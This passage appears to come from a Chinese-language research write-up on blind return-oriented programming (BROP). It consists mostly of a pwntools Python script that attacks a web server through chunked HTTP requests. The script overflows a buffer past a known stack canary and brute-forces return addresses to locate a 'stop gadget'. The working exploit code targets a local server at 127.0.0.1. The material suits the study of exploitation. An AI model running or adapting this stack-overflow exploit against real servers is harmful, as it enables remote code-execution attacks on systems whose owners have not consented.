 ![image-20220804173603325](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220804173603325.png)

返回地址就在canary+24之后的位置上

#### 寻找stop gadget

```python
# -*- coding:utf-8 -*-
# from __future__ import print_function
import socket
from pwn import *

#context.log_level = "DEBUG"

base_payload = """
GET / HTTP/1.1
Host: 127.0.0.1
Transfer-Encoding: chunked\r\n\r\n"""

def get_stop_gadget(canary_offset,canary,buf_size,start_addr = 0x400000):
    stop_gadget = start_addr
    while 1:
        stop_gadget = stop_gadget + 1
        s = connect("127.0.0.1", 80)
        s.send(base_payload + "A" * canary_offset + canary + 'A' * buf_size + p64(stop_gadget) )
        try:
            checkstr = s.recv(timeout=0.5)
            s.close()
            log.info("find one stop gadget: 0x%x", stop_gadget)
            return stop_gadget
        except:
            s.close()
            log.info("not 0x%x,try harder", stop_gadget)

if __name__ == "__main__":
    canary_offset = 5066
    canary = "\x00\x25\x9f\xb2\xfb\x45\x4b\x85"
    buf_size = 24
    stop_gadget = get_stop_gadget(canary_offset,canary,buf_size)
```

